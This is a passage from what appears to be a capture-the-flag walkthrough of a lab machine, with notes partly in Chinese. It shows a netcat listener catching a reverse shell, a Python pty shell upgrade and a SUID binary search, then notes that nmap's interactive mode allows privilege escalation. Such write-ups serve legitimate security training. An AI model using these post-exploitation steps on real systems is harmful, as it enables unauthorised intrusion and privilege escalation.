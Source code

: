```shell
 └─$ nc -lvnp 4444
 listening on [any] 4444 ...
 connect to [10.10.14.2] from (UNKNOWN) [10.10.10.3] 42558
 whoami
 daemon
 python -c "import pty;pty.spawn('/bin/bash')"    
 daemon@lame:/tmp$ find / -type f -perm -u=s 2>/dev/null
 find / -type f -perm -u=s 2>/dev/null
 /bin/umount
 /bin/fusermount
 /bin/su
 /bin/mount
 /bin/ping
 /bin/ping6
 /sbin/mount.nfs
 /lib/dhcp3-client/call-dhclient-script
 /usr/bin/sudoedit
 /usr/bin/X
 /usr/bin/netkit-rsh
 /usr/bin/gpasswd
 /usr/bin/traceroute6.iputils
 /usr/bin/sudo
 /usr/bin/netkit-rlogin
 /usr/bin/arping
 /usr/bin/at
 /usr/bin/newgrp
 /usr/bin/chfn
 /usr/bin/nmap
 /usr/bin/chsh
 /usr/bin/netkit-rcp
 /usr/bin/passwd
 /usr/bin/mtr
 /usr/sbin/uuidd
 /usr/sbin/pppd
 /usr/lib/telnetlogin
 /usr/lib/apache2/suexec
 /usr/lib/eject/dmcrypt-get-device
 /usr/lib/openssh/ssh-keysign
 /usr/lib/pt_chown
 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
 daemon@lame:/tmp$ nmap --version
 nmap --version
 Nmap version 4.53 ( http://insecure.org )
```

发现有nmap，版本为4.53，可以利用进行提权

> nmap 在 2.02 到 5.21 版本中可用交互模式（--interactive）执行 shell 命令
>
> The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands.
